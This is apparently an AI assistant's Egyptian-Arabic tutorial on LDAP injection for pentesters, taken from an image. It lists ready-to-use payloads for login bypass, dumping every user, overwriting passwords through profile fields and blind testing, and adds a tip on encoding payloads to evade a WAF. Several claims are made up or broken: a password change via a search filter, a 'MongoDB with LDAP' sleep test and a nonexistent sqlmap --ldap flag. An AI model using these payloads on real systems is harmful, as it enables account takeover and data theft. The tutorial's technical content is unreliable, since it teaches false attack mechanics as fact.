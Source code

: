 
### **1. تجاوز المصادقة (Authentication Bypass)**
#### **إيه هو؟**
LDAP Injection بيحصل لما تطبيق بيستخدم LDAP (Lightweight Directory Access Protocol) للمصادقة وميعملش فلترة كويسة للمدخلات. تقدر تحقن كود يخليك تتخطى اللوجين من غير باسوورد صحيح.

#### **ازاي بيحصل؟**
LDAP بيستخدم استعلامات زي `(username=admin)(password=123)`، لو حطيت علامات خاصة زي `*` أو `)`، تقدر تغير منطق الاستعلام.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)(userPassword=123)
  ```
- في حقل اليوزر نيم، جرب:
  ```
  admin)(&
  ```
  وفي الباسوورد أي حاجة (زي `test`). الاستعلام هيبقى:
  ```
  (uid=admin)(&)(userPassword=test)
  ```
  الـ `)(&` بيفصل الشرط ويخليه دايماً صح (True)، فتدخل من غير باسوورد.

- **اختبار حقيقي:**
  لو في فورم لوجين، حط: 
  ```
  username: admin)(&
  password: whatever
  ```
قصده هنا انك لو كتبت في اسم المستخدم كده وضغطت login هتخش علي الصفحه منغير م تكتب الباسورد بس لازم يكون اسم المستخدم صح

  لو دخلت، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد وبكمل الكلام بعدين"، لو فتحلك الباب من غير ما يكمل السؤال، يبقى هو اللي سابك تتسحب!

---

### **2.  Valid LDAP Attributes
#### **إيه هو؟**
لو التطبيق بيستخدم LDAP لجلب بيانات (زي الاسم أو الإيميل)، تقدر تحقن استعلام يجيبلك بيانات كل المستخدمين بدل يوزر واحد.

#### **ازاي بيحصل؟**
بتستخدم الـ Wildcard `*` عشان تجيب كل النتايج من الديركتوري.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)
  ```
- في حقل البحث أو اليوزر نيم:
  ```
  *)(uid=*
  ```
  الاستعلام هيبقى:
  ```
  (uid=*)(uid=*)
  ```
  معناه: "جيب كل المستخدمين اللي عندهم uid"، وكده هيرجعلك كل اليوزرز.

- **اختبار حقيقي:**
  لو في صفحة بحث:
  ```
  search: *)(uid=*
  ```
  لو ظهرت قايمة بكل المستخدمين (زي أسماء وإيميلات)، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحب المخزن "هاتلي حاجة لأحمد، أو لأي حد موجود"، لو جابلك كل الحاجات، يبقى المخزن كله بقى بتاعك!

---

### **3. تعديل بيانات الديركتوري**
#### **إيه هو؟**
لو التطبيق بيسمح بكتابة بيانات في LDAP وفيه ثغرة، تقدر تحقن استعلام يغير بيانات زي الباسوورد أو الصلاحيات.

#### **ازاي بيحصل؟**
بتستخدم حقن يضيف أو يعدل خصائص (Attributes) في الديركتوري.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)(mail=newemail@example.com)
  ```
- في حقل التعديل:
  ```
  admin)(userPassword=newpass
  ```
  الاستعلام هيبقى:
  ```
  (uid=admin)(userPassword=newpass)(mail=newemail@example.com)
  ```
  كده غيرت الباسوورد لـ `newpass`.

- **اختبار حقيقي:**
  لو في حقل تعديل بروفايل:
  ```
  username: admin)(userPassword=hacked
  ```
  لو اتغير الباسوورد، جرب تدخل بيه.

#### **خلاصة طريفة:**
تخيل إنك بتقول للموظف "غيرلي إيميلي، وكمان حطلي كلمة سر جديدة"، لو نفذ من غير ما يسأل، يبقى بقيت إنت المسؤول!

---

### **4. استغلال Blind LDAP Injection**
#### **إيه هو؟**
لو التطبيق مش بيرجع نتايج مباشرة، تقدر تستخدم تقنيات Blind (زي Boolean أو Time-Based) عشان تتأكد من الثغرة وتستخرج بيانات.

#### **ازاي بيحصل؟**
بتحقن شروط بترجع True/False أو تتأخر في الرد لو الشرط صح.

#### **مثال عملي:**
- **Boolean-Based:**
  الاستعلام الأصلي:
  ```
  (uid=admin)
  ```
  جرب:
  ```
  admin)(uid=admin
  ```
  لو دخلت، يبقى True. جرب:
  ```
  admin)(uid=wrong
  ```
  لو رفض، يبقى False.

- **Time-Based:**
  لو MongoDB مع LDAP:
  ```
  admin)(sleep=5
  ```
  لو الصفحة استنيت 5 ثواني، يبقى في ثغرة.

#### **خلاصة طريفة:**
تخيل إنك بتسأل البواب "لو أنا أحمد افتح الباب، لو مش أحمد استنى 5 ثواني"، لو استنى يبقى فتحتلك المجال تلعب!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **تجاوز المصادقة:**
   - في فورم لوجين، جرب:
     ```
     username: admin)(&
     password: test
     ```
     لو دخلت، يبقى نجح.

2. **استخراج البيانات:**
   - في حقل بحث:
     ```
     *)(uid=*
     ```
     لو رجع كل المستخدمين، دوّنهم.

3. **تعديل البيانات:**
   - في حقل تعديل:
     ```
     admin)(userPassword=newpass
     ```
     جرب اللوجين بالباسوورد الجديد.

4. **اختبار Blind:**
   - Boolean: جرب:
     ```
     admin)(uid=admin
     ```
     ثم:
     ```
     admin)(uid=wrong
     ```
   - Time-Based:
     ```
     admin)(sleep=5
     ```
     لو تأخرت، يبقى شغال.

5. **استخدام أدوات:**
   - جرب Burp Suite:
     اعترض الطلب وحط:
     ```
     username=admin)(&
     ```
   - أو sqlmap لو مدموج مع LDAP:
     ```
     sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --ldap
     ```

#### **نصيحة:**
- دوّن ردود السيرفر (زي أخطاء أو تأخير) عشان تفهم نوع الثغرة.
- لو في WAF، جرب تشفير الـ Payload زي `%29%26`.

---

ها، عايز أشرح حاجة زيادة زي استخراج بيانات أكتر أو أعمق في Blind؟